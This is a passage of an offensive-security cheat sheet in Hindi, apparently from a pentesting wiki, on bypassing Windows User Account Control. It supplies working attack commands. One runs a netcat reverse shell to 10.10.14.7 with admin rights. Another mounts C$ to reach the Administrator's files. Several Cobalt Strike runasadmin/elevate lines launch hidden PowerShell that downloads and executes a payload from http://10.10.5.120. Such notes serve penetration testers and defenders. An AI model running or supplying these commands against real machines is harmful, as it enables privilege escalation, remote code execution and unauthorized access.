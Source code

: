 UAC बायपास निम्नलिखित स्थिति में आवश्यक है: **UAC सक्रिय है, आपकी प्रक्रिया मध्यम अखंडता संदर्भ में चल रही है, और आपका उपयोगकर्ता प्रशासक समूह का सदस्य है**।

यह उल्लेख करना महत्वपूर्ण है कि यदि UAC सबसे उच्च सुरक्षा स्तर (हमेशा) में है, तो इसे बायपास करना बहुत कठिन है बजाय इसके कि यह किसी अन्य स्तर (डिफ़ॉल्ट) में हो।

### UAC अक्षम

यदि UAC पहले से ही अक्षम है (`ConsentPromptBehaviorAdmin` **`0`** है) तो आप **एडमिन विशेषाधिकारों के साथ एक रिवर्स शेल को निष्पादित कर सकते हैं** (उच्च अखंडता स्तर) जैसे कुछ का उपयोग करके:
```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```
#### UAC के साथ टोकन डुप्लिकेशन

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **बहुत** बुनियादी UAC "bypass" (पूरी फाइल सिस्टम एक्सेस)

यदि आपके पास एक शेल है जो एडमिनिस्ट्रेटर्स समूह के अंदर के उपयोगकर्ता के साथ है, तो आप **C$ को माउंट कर सकते हैं** जो SMB (फाइल सिस्टम) के माध्यम से साझा किया गया है, स्थानीय रूप में एक नई डिस्क में और आपके पास **फाइल सिस्टम के अंदर सब कुछ तक पहुँच होगी** (यहाँ तक कि एडमिनिस्ट्रेटर होम फोल्डर भी).

{% hint style="warning" %}
**लगता है यह चाल अब काम नहीं कर रही है**
{% endhint %}
```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```
### कोबाल्ट स्ट्राइक के साथ UAC बाईपास

कोबाल्ट स्ट्राइक तकनीकें केवल तभी काम करेंगी जब UAC अपने अधिकतम सुरक्षा स्तर पर सेट नहीं होता है
```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
**Empire** और **Metasploit** में **UAC** को **bypass** करने के लिए कई मॉड्यूल हैं।
